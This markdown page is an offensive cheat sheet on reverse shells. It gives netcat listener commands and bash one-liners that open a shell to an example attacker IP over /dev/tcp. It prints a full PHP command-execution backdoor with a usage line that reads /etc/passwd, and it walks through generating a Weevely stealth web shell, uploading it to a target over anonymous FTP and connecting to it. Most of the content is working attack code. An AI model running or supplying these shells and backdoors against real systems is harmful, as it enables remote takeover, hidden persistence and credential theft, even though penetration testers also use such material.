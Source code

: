 # Reverse Shells

<!-- vim-markdown-toc GitLab -->

* [Reverse Shells](#reverse-shells)
  * [Simple Socket Reverse Shells](#simple-socket-reverse-shells)
    * [Attacker Side](#attacker-side)
    * [Target Side](#target-side)
  * [PHP reverse shells](#php-reverse-shells)
  * [Weevely](#weevely)

<!-- vim-markdown-toc -->

## Reverse Shells

### Simple Socket Reverse Shells

Some of the most basic reverse shells simply open a connection to a socket on the attacker's system, then read commands to run from the socket, and write their output back to it. For the examples in this section, I will assume that the attacker is listening on 192.0.2.231 port 5445.

#### Attacker Side

Run `nc -lvnp 5445` for TCP connections, or `nc -lvnup 5445` for UDP connections

**Explanation**: 

* `-l`: listen instead of initiating a connection
* `-v`: verbose output
* `-n`: do not attempt DNS resolution
* `-u`: use a UDP socket, rather than a TCP socket
* `-p 5445`: port 5445

#### Target Side

There is a list available [at this link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) of many different reverse shells in different languages.

I am including a simple one of them (with the example address and port changed), but for a much greater variety, follow the link above.

```bash
bash -i >& /dev/tcp/192.0.2.231/5445 0>&1

0<&196;exec 196<>/dev/tcp/192.0.2.231/5445; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/192.0.2.231/5445 0<&1 2>&1
```

### PHP reverse shells

On Kali systems, you can find a simple PHP reverse shell with the following contents at /usr/share/webshells/php/simple-backdoor.php:

```php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->

```

For a fancier web shell with a TTY-like user interface, check out [prakashchand72/Interactive-Php-Reverse-shell](https://github.com/prakashchand72/Interactive-Php-Reverse-shell).

### Weevely

Weevely provides a stealthier reverse shell that won't look like a reverse shell in logs. It can be used in a few steps:

```bash
# set the password
read -s -p "Password: " pass
# generate the executable
weevely generate "$pass" inconspicuous-filename.php
# somehow upload the executable to the target server - if there's anonymous read-write FTP access to a path within the web directory, that might work
printf 'cd upload-dir\nput %s\nexit\n' inconspicuous-filename.php | ftp -a targetserver.example
# connect to the weevely shell
weevely http://targetserver.example/upload-dir/inconspicuous-filename.php "$pass"
```
